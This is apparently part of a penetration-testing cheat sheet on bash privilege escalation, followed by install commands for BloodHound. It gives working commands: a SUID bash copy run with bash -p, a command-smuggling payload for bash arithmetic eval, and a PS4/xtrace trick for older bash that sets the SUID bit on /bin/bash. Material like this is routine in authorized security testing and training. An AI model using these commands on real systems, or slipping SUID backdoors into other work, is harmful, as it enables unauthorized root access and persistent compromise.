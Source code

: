 ### SUID Privilege Escalation

```console
$ cp /bin/bash .
$ chmod +s bash
$ bash -p
```

### White Collar eval Arbitrary Code Execution

> https://www.vidarholen.net/contents/blog/?p=716

#### Example

```console
#!/bin/bash
chmod +s /bin/bash
```

```console
'a[$(/tmp/<FILE>.sh>&2)]+42' /tmp/<FILE>.sh
```

## Bash Debugging Mode

- Bash <4.4

```console
$ env -i SHELLOPTS=xtrace PS4='$(chmod +s /bin/bash)' /usr/local/bin/<BINARY>
```

## Bash String Slicing

```console
${variable:offset:length}
```

```console
$ _$0
$ ${0:29:2}
```

## BloodHound

> https://github.com/SpecterOps/BloodHound

> https://www.kali.org/tools/bloodhound/

### Installation

```console
$ sudo apt-get install bloodhound
```

```console
$ sudo bloodhound-setup
```
